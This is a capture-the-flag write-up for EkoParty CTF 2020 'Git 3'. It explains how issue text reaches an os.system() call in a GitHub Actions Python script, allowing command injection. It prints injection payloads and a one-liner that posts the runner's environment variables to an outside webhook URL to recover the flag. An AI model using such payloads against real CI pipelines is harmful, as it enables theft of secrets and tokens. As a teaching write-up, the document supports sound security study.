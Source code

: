 # Env Writeup

EkoParty CTF 2020 Git 3

## Prompt

Not too sure of the original prompt, however I did not need it.

## Solution

After [the second part of the git challenge saga](../docs), we have gotten a new repository with some new github actions. We know, before analyzing these however, that:

 - Issues filed to the `ekolabs` repo will be 'moved' to the `ekoparty-internal` repo. 
 - We control content in the submitted issues, and this is copied to the new issues in `ekoparty-internal` repo.

That's good information. Now let's examine the actions for this repo - we are provided an `issue-notify.py` and an `issue-notify.yml`. At first glance at the python script, we see two interesting things:

1. The script checks `if 'very important' in title:` before executing an `os.system()` call
2. The script runs our 'user input' (the body of the issue) in the call to `os.system()`.

What can we do with this? If we put "very important" in the title, and we include a specific body, we can execute arbitrary commands using the call to `os.system()`. How so? 

```python
os.system('echo "%s" > /tmp/%s' % (body, notify_id))
```

This line is vulnerable, as the `body` of our issue is placed in it's entirety in the place of the first `%s`, so if we were to enter `"`, this would become:

```python
os.system('echo """ > /tmp/%s' % (body, notify_id))
```

Which would echo an empty string to `/tmp/$notify_id`. This will not do, however, so we need something more complicated to do the trick. Maybe something like sending `body` of `"; sleep 10; echo "` will do better, as it will turn into:

```python
os.system('echo ""; sleep 10; echo "" > /tmp/%s' % (body, notify_id))
```
> Note: I did not come up with this all in one shot, I had to prototype it. I did this with the [test.py](test.py) script.

This will execute the `sleep 10` just fine. We have code execution now, we just need to find out what to do with it. The challenge name indicates the flag is likely stored in the environment variables so we know where to look, but how to extract this info from the server?

To determine what tools are available for use, I looked to `issue-notify.yml`:

```yml
    runs-on: ubuntu-latest
    steps:
      
      ...

      - name: Set up Python3
        if: ${{ success() }}
        uses: actions/setup-python@v1
        with:
        	python-version: "3.7"
```

We at least have a default installation of Python 3.7 to work with, that's pretty good. To make use of that, we will need to have somewhere to send it, and that's where a webhook tester, something that captures and displays (in this case) http requests sent to it. For this I used PipeDream. It provides you with a link to send requests to.

From there, it's as easy as getting the environment variables `os.environ`, and sending them home to PipeDream with a little one-line bash / python script of sorts:

```bash
" && python3 -c "import requests; message = {'message': str(os.environ)}; r = requests.post('https://e756afb172e9b06dad06e8cfeff52a32.m.pipedream.net',data = message);" && echo "
```

That's all there is to it: sending that returns [envs](envs) to PipeDream, and it's right in there. 

```
EKO{b08bb4814d581e6a91b3501f8c63c7786fe624e1}
```

~ Lyell Read